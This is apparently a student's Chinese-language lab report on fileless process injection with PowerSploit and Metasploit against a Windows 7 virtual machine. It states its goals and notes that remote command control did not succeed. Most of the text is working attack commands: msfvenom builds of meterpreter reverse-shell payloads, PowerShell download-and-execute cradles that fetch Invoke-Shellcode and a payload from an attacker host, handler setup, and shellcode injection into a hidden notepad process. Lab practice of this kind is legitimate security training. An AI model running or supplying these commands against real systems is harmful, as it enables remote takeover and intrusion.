 ## 实验内容

### 实验名称

利用powersploit进行系统注入

### 实验环境

- 靶机：windows7

- 攻击机：

  ​	宿主机：macOS

  ​	虚拟机：kali

- 使用工具：

  1. metasploit
  2. apache2
  3. powersploit

### 解决问题

1. 将木马代码注入到进程中，实现无文件攻击
2. 解决肉鸡通过宿主机回连虚拟机

### 未解决问题

已实现主机存活确认，但是未成功实现远程命令控制

## 实验过程

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.11.32.197 LPORT=4444 -f powershell -o /var/www/html/code1009

iex(New-Object Net.WebClient).DownloadString('http://10.11.32.197:4321/power/CodeExecution/Invoke-Shellcode.ps1')
iex(New-Object Net.WebClient).DownloadString('http://10.11.32.197:4321/code1009')


use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https 
set LHOST 10.211.55.5
set LPORT 4444
exploit

Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden
Invoke-Shellcode -Shellcode ($buf) -ProcessID 5168

metaspolit木马回连
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.11.32.197 lport=4444 -f exe > ./root/desktop/evilshell1.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.211.55.5
set LPORT 4444